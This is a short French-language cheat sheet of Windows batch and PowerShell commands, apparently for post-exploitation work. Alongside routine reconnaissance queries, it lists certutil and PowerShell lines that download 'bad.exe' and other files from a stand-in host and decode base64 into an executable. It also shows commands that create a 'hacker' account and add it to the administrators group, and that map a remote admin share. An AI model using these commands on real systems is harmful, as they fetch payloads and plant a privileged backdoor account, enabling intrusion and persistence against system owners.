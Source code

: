 <h2>Batch</h2>
<i>systeminfo</i> → Obtenir des renseignements sur le système</br>
<i>net users /domain [username]</i> → Obtenir des renseignements sur les utilisateurs</br>
<i>tasklist</i> → Lister les processus</br>
<i>netstat -ano</i> → Liste des connexions tcp</br>
<i>dir sysprep /s /b</i> → Trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
<i>wmic qfe list</i> → Lister les patch installés (KB)</br>
<i>certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe</i> → Wget en batch</br>
<i>certutil.exe -decode bad.txt bad.exe</i> → Base64 decode en cmd</br>
<i>net user Domain/hacker hackerhacker /add</i> → Ajoute un utilisateur</br>
<i>net localgroup administrators hacker /add</i> → Ajoute un utilisateur à un groupe</br>
<i>net use k: \\srv.remote.org\c$</i> → Connexion au disque distant c sur la partition k</br>
<i>wmic useraccount where name='user'</i> → Récupère des informations sur un utilisateur (SID)</br>

<h2>Powershell</h2>
<i>{(New-Object System.Net.WebClient).DownloadFile("http://site.com/file", "C:\\Users\Public\file")}</i> → Wget en powershell</br>
get-WmiObject -class Win32_Share
